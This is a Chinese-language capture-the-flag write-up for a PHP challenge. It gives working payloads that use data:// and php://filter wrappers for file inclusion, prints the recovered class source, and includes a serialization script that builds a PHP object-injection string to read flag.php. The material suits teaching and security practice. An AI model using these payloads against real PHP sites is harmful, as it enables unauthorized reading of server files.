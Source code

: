 发现有反序列化函数 但是没有传参点 发现有提示`useless.php`

使用伪协议读取一下内容，注意`include($file)`直接传入`useless.php`会被解析为`php文件`之后被执行，想要读取文件内容则需要使用伪协议

`payload`

```
?text=data://text/plain,welcome to the zjctf&file=php://filter/convert.base64-encode/resource=useless.php
```

读取到`useless.php`文件的内容为

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

发现有反序列化的点，并且在源代码时被调用`echo`，所以执行`__toString()`方法

```php
$password = unserialize($password);
echo $password;
```

编写`exp`

因为`file_get_contents`可以直接读取文件，只是读取后会显示在源代码，所以也可以用
```php
public $file = "flag.php";
```

```php
<?php  

class Flag{  //flag.php  
    public $file = "php://filter/convert.base64-encode/resource=flag.php";  
}  

$a = new Flag();
echo serialize($a);
?>  
```

做题的时候忘了`useless.php`还没有包含执行，就在那反序列化了，所以最终`payload`为

```
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:52:"php://filter/convert.base64-encode/resource=flag.php";}
```
